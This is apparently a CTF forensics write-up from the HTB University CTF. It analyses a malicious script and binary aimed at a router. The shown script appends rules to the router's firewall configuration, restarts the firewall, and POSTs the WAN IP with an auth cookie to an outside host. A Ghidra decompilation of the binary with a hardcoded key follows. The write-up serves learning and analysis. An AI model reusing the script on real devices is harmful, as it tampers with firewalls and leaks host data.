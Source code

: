 ```bash
	option family 'ipv4'        \n\t
	list proto 'tcpudp'         \n\t
	option dest_ip '${ROUTER_IP}'"

echo -e $CONFIG >> /etc/config/firewall
/etc/init.d/firewall restart

curl -X POST -H "Content-Type: application/json" -b "auth_token=SFRCe1owbWIxM3NfaDR2M19pbmY" -d '{"ip":"'${WAN_IP}'"}' http://configs.router.htb/reanimat
eav@tokyo:~/ctf/htb-university-ctf/for/configs
$
```

hmmm wait a minute that auth token looks awfully like base64 encoding lets take a look...

```sh
av@tokyo:~/ctf/htb-university-ctf/for/configs
$ echo "SFRCe1owbWIxM3NfaDR2M19pbmY"|base64 -d
HTB{Z0mb13s_h4v3_inf
av@tokyo:~/ctf/htb-university-ctf/for/configs
$
```

that looks like our flag but only a part of it we are getting closer!!!

lets look at dead_reanimated in ghidra:

main function
```C

undefined4 main(void)

{
  size_t sVar1;
  void *decrypted;
  int curl_easy_handle;
  FILE *pFVar2;
  __uid_t _Var3;
  passwd *ppVar4;
  undefined4 uVar5;
  undefined uStack_169;
  undefined4 local_168;
  undefined auStack_164 [252];
  undefined key [44];
  char CipherText [28];
  undefined4 uStack_20;
  undefined4 local_1c;
  undefined4 local_18;
  
  uStack_20._0_1_ = 'z';
  uStack_20._1_1_ = 'o';
  uStack_20._2_1_ = 'm';
  uStack_20._3_1_ = 'b';
  local_1c._0_1_ = 'i';
  local_1c._1_1_ = 'e';
  local_1c._2_1_ = '_';
  local_1c._3_1_ = 'l';
  local_18._0_1_ = 'o';
  local_18._1_1_ = 'r';
  local_18._2_1_ = 'd';
  local_18._3_1_ = '\0';
  memcpy(key,"d2c0ba035fe58753c648066d76fa793bea92ef29",0x29);
  memcpy(CipherText,&DAT_00400d50,0x1b);
  sVar1 = strlen(CipherText);
  decrypted = malloc(sVar1 << 2);
  init_crypto_lib(key,CipherText,decrypted);
```